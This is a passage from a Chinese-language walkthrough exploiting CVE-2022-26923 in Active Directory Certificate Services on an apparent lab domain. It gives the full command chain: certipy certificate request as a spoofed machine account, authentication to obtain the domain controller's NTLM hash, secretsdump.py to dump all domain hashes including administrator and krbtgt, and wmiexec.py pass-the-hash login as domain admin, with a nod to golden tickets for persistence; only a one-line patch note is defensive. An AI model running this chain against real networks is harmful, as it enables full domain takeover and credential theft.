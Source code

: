    ```

   ```
   proxychains certipy req -u 'zsmachine$'@woniu.com -p p-0p-0p-0 -ca woniu-DC-CA -target dc.woniu.com -template Machine
   ```

   ![image-20230311151327825](https://s2.loli.net/2023/03/11/lcZTmyCLSrAKXDh.png)

4. 利用申请到的证书进行认证并获取 dc 的 NTLM hash。

   ```
   proxychains certipy auth -pfx dc.pfx
   ```

   ![image-20230311151404992](https://s2.loli.net/2023/03/11/FolSAhfazyBN8Im.png)

   得到的hash如下：

   ```
由两部分组成 lmhash:nthash

   aad3b435b51404eeaad3b435b51404ee:5f982f3915ff8ecd87e0b69ccc0ef0da
   ```

   注：从 Windows Server 2008版本开始默认 LM Hash被禁用了，一般为 aad3b435b51404eeaad3b435b51404ee 。

5. 使用 secretsdump.py （Impacket工具包，kali默认安装）将所有用户的 hash 抓取下来。

   ```
   proxychains python3 secretsdump.py 'dc$'@10.10.10.133 -hashes aad3b435b51404eeaad3b435b51404ee:5f982f3915ff8ecd87e0b69ccc0ef0da
   ```

   ![image-20230311160343133](https://s2.loli.net/2023/03/11/8Qs9SGNIe3VlZyA.png)

   从上面我们可以得到 administrator 与 krbtgt 的 NTLM Hash

   ```
administrator 的 NTLM Hash 如下：

   ad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
   ```

6. 使用 administrator 的 hash 进行登录，这里使用的是 wmiexec.py （Impacket工具包）脚本。

   ```
   proxychains python3 wmiexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 administrator@10.10.10.133
   ```

   ![image-20230311160458004](https://s2.loli.net/2023/03/11/RLMje4mGCtqHsuX.png)

   成功登录dc，账户为 administrator （域管理员），至此提权完成，后续可以进行对应权限维持（如：黄金票据、白银票据等）。



### 四、修复建议

1. 更新官方的安全补丁，根据对应系统版本安装对应补丁，微软安全更新指南链接：https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923 。



### 五、参考文章

1. Active Directory 域权限提升漏洞（CVE-2022–26923）分析（http://www.ctfiot.com/40081.html）。
   ```